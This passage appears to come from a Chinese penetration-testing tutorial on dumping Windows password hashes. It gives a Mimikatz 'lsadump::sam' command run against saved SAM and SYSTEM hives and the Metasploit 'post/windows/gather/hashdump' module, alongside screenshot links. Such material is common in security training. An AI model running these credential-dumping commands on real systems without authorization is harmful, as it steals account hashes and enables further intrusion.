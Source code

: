 [![image.png](assets/1698894155-c1547a590d3b9d46910800290c07e659.png)](https://storage.tttang.com/media/attachment/2022/09/30/24db06ba-d311-4922-b8df-5ee930539153.png)

之后通过 Mimikatz 来获取信息：

lsadump::sam /sam:sam.hive /system:system.hive

[![image.png](assets/1698894155-0c5261cc016d2ac58f9e390b4b9e5073.png)](https://storage.tttang.com/media/attachment/2022/09/30/bb56f00c-3624-411c-b052-4d720b179290.png)

##### [Metasploit](#toc_metasploit)

run post/windows/gather/hashdump

[![image.png](assets/1698894155-d45b99576f88628b2169dc75bf66cb6a.png)](https://storage.tttang.com/media/attachment/2022/09/30/2f5e937b-7781-4c04-8a34-479aa6e7ff55.png)
